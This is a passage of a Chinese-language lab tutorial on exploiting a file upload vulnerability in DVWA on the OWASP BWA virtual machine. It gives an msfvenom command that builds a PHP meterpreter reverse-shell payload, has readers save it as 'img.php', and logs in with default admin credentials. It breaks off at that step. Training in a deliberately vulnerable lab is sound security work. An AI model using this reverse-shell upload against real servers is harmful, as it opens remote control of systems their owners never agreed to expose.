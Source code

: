 在本练习中，我们将使用 OWASP BWA 虚拟机演示文件上载漏洞。让我们开始：

1.  首先，使用`msfvenom`在您的 Kali Linux（攻击者）计算机上创建有效负载，稍后将上载到目标服务器。使用以下语法，创建基于 PHP 的负载以建立反向连接：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw
```

2.  复制高亮显示的代码，打开文本编辑器，将文件保存为`img.php`：

![](img/3515f8e8-4851-440d-8653-46e9b222a624.png)

3.  使用 Kali Linux 中的 web 浏览器，在地址栏中输入 OWASP BWA 的 IP 地址，然后点击*输入*。
4.  在主页面上，点击**该死的易受攻击的 Web 应用程序**：

![](img/4c9eb84f-eccd-4a1c-bc70-04ce74a48e2c.png)

5.  DVWA 登录门户将出现。以`admin`/`admin`作为用户名/密码登录：
